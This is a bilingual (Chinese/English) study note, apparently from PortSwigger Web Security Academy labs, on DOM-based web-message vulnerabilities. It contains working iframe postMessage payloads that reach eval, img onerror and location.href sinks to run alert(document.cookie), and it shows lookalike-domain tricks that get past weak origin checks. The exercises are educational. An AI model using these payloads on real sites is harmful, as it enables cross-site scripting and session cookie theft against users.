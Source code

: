 ```html
<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('alert(1)','*')">
																		 （message，targetOrigin）
```

listener并不验证消息来源， and the postMessage() method specifies the targetOrigin "*"，listener接收接收payload并传递给sink，在这里即eval()

```html
lab1：
<iframe src="https://ac641fe71e17970c809306b0009d0010.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=alert(document.cookie)>','*')">

lab2：
<iframe src="https://acdb1f991f170dde8046546b008700a6.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:alert(document.cookie)//http:','*')">
```

事件listener发现“http:”字符串并继续将有效负载发送到`location.href`接收器，在客户端会话的上下文中调用alert（）函数。

#### Origin verification

For example, consider the following code:

```javascript
window.addEventListener('message',function(e){
	if(e.origin.indexOf('normal-website.com') > -1) {
		eval(e.data)
	}
})
```

you can use  http://www.normal-website.com.evil.net

The same flaw also applies to verification checks that rely on the `startsWith()` or `endsWith()` methods

```javascript
window.addEventListener('message',function(e){
	if(e.origin.endsWith('normal-website.com')) {
		eval(e.data)
	}
})
```

use http://www.malicious-websitenormal-website.com

```html
lab:
<iframe src=https://ac761ffa1e49ae4e80bc4424003600e0.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:alert(document.cookie)\"}","*")'>
```

#### Which sinks can lead to DOM-based web-message vulnerabilities?

只要网站由于缺乏充分的来源验证而接受来自不受信任来源的web消息数据，传入消息事件侦听器使用的任何接收器都可能导致漏洞。
